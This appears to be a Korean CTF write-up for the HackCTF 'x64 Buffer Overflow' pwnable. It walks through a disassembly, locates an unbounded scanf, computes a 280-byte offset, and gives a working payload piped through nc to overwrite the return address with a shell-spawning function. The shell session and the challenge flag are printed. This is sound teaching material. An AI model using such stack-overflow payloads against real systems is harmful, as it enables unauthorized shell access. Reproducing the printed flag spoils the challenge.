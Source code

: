 #x64 Buffer Overflow

---

x64에서의 기본적인 bufferoverflow문제이다. 우선 `main()`의 코드는 다음과 같다.

```assembly
gdb-peda$ pd main
Dump of assembler code for function main:
   0x0000000000400641 <+0>:	push   rbp
   0x0000000000400642 <+1>:	mov    rbp,rsp
   0x0000000000400645 <+4>:	sub    rsp,0x120
   0x000000000040064c <+11>:	mov    DWORD PTR [rbp-0x114],edi
   0x0000000000400652 <+17>:	mov    QWORD PTR [rbp-0x120],rsi
   0x0000000000400659 <+24>:	lea    rax,[rbp-0x110]
   0x0000000000400660 <+31>:	mov    rsi,rax
   0x0000000000400663 <+34>:	mov    edi,0x400741
   0x0000000000400668 <+39>:	mov    eax,0x0
   0x000000000040066d <+44>:	call   0x400508
   0x0000000000400672 <+49>:	lea    rax,[rbp-0x110]
   0x0000000000400679 <+56>:	mov    rdi,rax
   0x000000000040067c <+59>:	call   0x4004e0
   0x0000000000400681 <+64>:	mov    DWORD PTR [rbp-0x4],eax
   0x0000000000400684 <+67>:	lea    rax,[rbp-0x110]
   0x000000000040068b <+74>:	mov    rsi,rax
   0x000000000040068e <+77>:	mov    edi,0x400744
   0x0000000000400693 <+82>:	mov    eax,0x0
   0x0000000000400698 <+87>:	call   0x4004e8
   0x000000000040069d <+92>:	mov    eax,0x0
   0x00000000004006a2 <+97>:	leave  
   0x00000000004006a3 <+98>:	ret    
End of assembler dump.
```


    int __cdecl main(int argc, const char **argv, const char **envp)
    {
      char s; // [rsp+10h] [rbp-110h]
      int v5; // [rsp+11Ch] [rbp-4h]
    
      _isoc99_scanf("%s", &s);
      v5 = strlen(&s);
      printf("Hello %s\n", &s);
      return 0;
    }


다음에서 보면 scanf를 통해서 s에 문자열을 입력받는다. 이때 문자열 길이에 제한이 없기 때문에 stackoverflow가 일어난다. 때문에 `main()`의 ret주소를 다음 함수의 주소로 바꾸어주면 된다.


    int callMeMaybe()
    {
      char *path; // [rsp+0h] [rbp-20h]
      const char *v2; // [rsp+8h] [rbp-18h]
      __int64 v3; // [rsp+10h] [rbp-10h]
    
      path = "/bin/bash";
      v2 = "-p";
      v3 = 0LL;
      return execve("/bin/bash", &path, 0LL);
    }

`main()+24`에서 보면 scanf를 통해서 받는 문자열의 주소가 rbp-0x110이다. 때문에 `main()`의 ret주소를 조작하기 위해서는 0x110에다가 SFP(8bytes)만큼 dummy로 덮고 `callMeMaybe()`의 주소를 ret주소에 덮어주면 될 것이다. 이를 위한 payload는 다음과 같다.

**[dummy 280bytes] + callMeMaybe()_address**

`callMeMaybe()`의 주소는 다음과 같으므로 익스가 가능하다.

    gdb-peda$ p callMeMaybe
    $1 = {<text variable, no debug info>} 0x400606 <callMeMaybe>

---
    sjy0175@sjy0175-VirtualBox:~/Desktop/HackCTF/Pwnable/5.x64BufferOverflow$ (python -c "print 'A'*280 + '\x06\x06\x40\x00\x00\x00\x00\x00'";cat) | nc ctf.j0n9hyun.xyz 3004
    whoami
    attack
    ls
    flag
    main
    cat flag
    HackCTF{64b17_b0f_15_51mpl3_700}

**flag: HackCTF{64b17_b0f_15_51mpl3_700}**
